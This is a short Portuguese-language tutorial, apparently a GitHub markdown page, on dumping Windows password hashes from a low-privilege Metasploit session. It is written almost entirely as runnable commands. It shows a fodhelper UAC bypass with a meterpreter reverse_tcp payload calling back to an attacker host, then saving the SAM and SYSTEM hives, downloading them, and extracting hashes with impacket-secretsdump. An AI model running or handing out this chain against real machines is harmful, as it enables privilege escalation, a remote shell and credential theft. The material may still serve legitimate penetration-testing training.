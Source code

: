 <h1 align="center"> Obtendo hashes em sistemas modernos</h1>
<hr>

No cenario agora , vamos ter permissao apenas de um usuario comum para vermos a importancia de termos acesso administrativo no host.

Se tentar trazer os hashes com hashdump no metasploit como usuario como nao vamos conseguir, porque a gente nao tem acesso privilegiado para conseguir essas infos.

```
meterpreter>getuid
Server name: DESKTOP>JKHS312\Usuario
meterpreter>hashdump
[-] priv_passwd_get_sam_hashes:Operation failed: The parameter is incorret.
```
Ja que nao temos privilegios para executar esta funcao , temos que escalar nosso privilegio (UAC) para obtermos esses hashes .

Entao podemos pesquisar no metasploit por `uac` e ele vai mostrar todos os modulos que ele tem pra dar uma especie de bypass em uac.

```sh
meterpreter>seach uac
```

Um modulo bom de se usar seria o `bypassuac_foldhelper`

```sh
msf5> use exploit/windows/local/bypassuac_fodhelper
msf5> exploit(windows/local/bypassuac_fodhelper)> set session <SESSION>
msf5> exploit(windows/local/bypassuac_fodhelper)> show targets
msf5> exploit(windows/local/bypassuac_fodhelper)> set target 1
msf5> exploit(windows/local/bypassuac_fodhelper)> set payload windows/x64/meterpreter/reverse_tcp
msf5> exploit(windows/local/bypassuac_fodhelper)> set LPORT 4545
msf5> exploit(windows/local/bypassuac_fodhelper)> set LHOST 192.168.1.6
msf5> exploit(windows/local/bypassuac_fodhelper) > exploit
```

Agora podemos salvar os hashes , depois de bypassar o UAC:

```sh
meterpreter> shell
C:\Windows\system32>cd \
C:\> reg save hklm\sam sam10
C:\> reg save hklm\system system10

exit
meterpreter> download sam10 system10
```

E agora nos temos os hashes dos usuarios , mas ainda alem vamos usar o IMPACKET

```sh
impacket-secretsdump -sam sam10 -system system10 LOCAL
```
